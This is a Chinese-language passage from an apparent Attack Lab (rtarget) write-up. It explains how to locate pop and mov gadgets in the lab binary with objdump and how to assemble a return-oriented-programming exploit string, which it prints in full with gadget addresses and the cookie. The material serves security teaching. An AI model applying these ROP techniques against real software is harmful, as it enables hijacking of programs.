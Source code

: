 我们要做的便是将立即数cookie移到`%rdi`中。但是存在的问题是我们无法利用gadget直接构造cookie，这就说明我们只能手动传入cookie并储存在栈中，利用其它指令再进行调用。

在和栈进行数据交互的指令中，我们考虑`pushq`和`popq`指令。回忆一下这两个指令的功能：

| 指令    | 效果                               | 描述         |
| ------- | ---------------------------------- | ------------ |
| pushq S | R[%rsp]-8 → R[%rsp];S → M[R[%rsp]] | 将四字压入栈 |
| popq D  | M[R[%rsp]] → D;R[%rsp]+8 → R[%rsp] | 将四字弹出栈 |

我们发现`popq`指令可以实现将栈顶的四字储存到目标寄存器中，这就说明我们可以先将cookie传入栈顶，在利用该指令将其直接或间接传递到寄存器中，实现我们所需要的操作。

我们将farm转换为对应的字节码：

```bash
gcc -c farm.c
objdump -d farm.o > farm.s
```

得到farm中每个函数对应的字节码，方便我们构造gadget。

但是事实上当我得到转换之后的字节码时，我发现地址是从0x0000处开始的，这说明直接转换farm.c文件不能得出运行时对应gadget的地址😥

所以我们还是回到`rtarget`中，直接找到对应的地址：`objdump -d rtarget > rtarget.s`

定位如下片段：

```assembly
4019a7: 8d 87 51 73 58 90     lea -0x6fa78caf(%rdi), %eax
4019ad: c3                    retq
```

从`0x4019ab`到`0x4019ad`为`58 90 c3`，对应：

```assembly
popq	%rax
nop
ret
```

同样，定位如下片段：

```assembly
4019a0: 8d 87 48 89 c7 c3     lea -0x3c3876b8(%rdi), %eax
4019a6: c3                    retq
```

从`0x4019a2`到`0x4019a5`为`48 89 c7 c3`，对应：

```assembly
movq	%rax,%rdi
```

因此我们进行组装：

```
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
ab 19 40 00 00 00 00 00 
fa 97 b9 59 00 00 00 00 
a2 19 40 00 00 00 00 00 
ec 17 40 00 00 00 00 00 
```
